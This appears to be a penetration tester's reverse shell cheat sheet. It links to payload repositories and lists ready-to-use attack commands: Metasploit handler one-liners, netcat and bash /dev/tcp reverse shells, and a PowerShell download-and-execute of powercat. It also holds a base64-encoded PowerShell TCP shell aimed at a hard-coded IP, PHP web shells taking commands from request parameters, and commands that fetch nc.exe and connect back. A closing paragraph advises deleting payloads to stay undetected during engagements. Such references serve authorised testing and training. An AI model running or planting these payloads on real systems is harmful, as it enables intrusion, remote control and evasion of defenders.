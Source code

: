 [Revshells](https://www.revshells.com)
[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
[ASPX Reverse Shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)
[PHP Reverse Shell](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php)
```bash
msfconsole -q -x 'use exploit/multi/handler;set LHOST tun0; set LPORT 443; run'

msfconsole -q -x 'use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 443; run'

msfconsole -q -x 'use exploit/multi/handler;set payload linux/x64/meterpreter/reverse_tcp;set LHOST tun0; set LPORT 443; run'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc $ip 443 >/tmp/f
bash -c 'bash -i >& /dev/tcp/$ip/443 0>&1'

python -c 'import pty; pty.spawn("/bin/sh")' 
stty raw -echo && fg
```


```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$ip:80/powercat.ps1');powercat -c $ip -p 443 -e powershell"

```powershell
pwsh
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.237",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
powershell -e <payload>
```

```php
<?php system($_GET['cmd']) ?> 
<?php system($_REQUEST['cmd']) ?> 
<?php echo shell_exec($_GET['cmd']); ?>
<?php echo shell_exec($_REQUEST['cmd']); ?>
system("powershell -c curl http://10.10.14.6/nc.exe -o C:\\programdata\\nc.exe");
system("C:\\programdata\\nc.exe 10.10.14.6 1337 -e powershell.exe");
```


Depending on the engagement type (i.e., a black box evasive assessment), we may need to attempt to go undetected and `cover our tracks`. We are often helping our clients test their capabilities to detect a live threat, so we should emulate as much as possible the methods a malicious attacker may attempt, including attempting to operate stealthily. This will help our client and save us in the long run from having files discovered after an engagement period is over. In most cases, when attempting to gain a shell session with a target, it would be wise to establish a reverse shell and then delete the executed payload. Also, we must document every method we attempt, what worked & what did not work, and even the names of the payloads & files we tried to use. We could include a sha1sum or MD5 hash of the file name, upload locations in our reports as proof, and provide attribution.
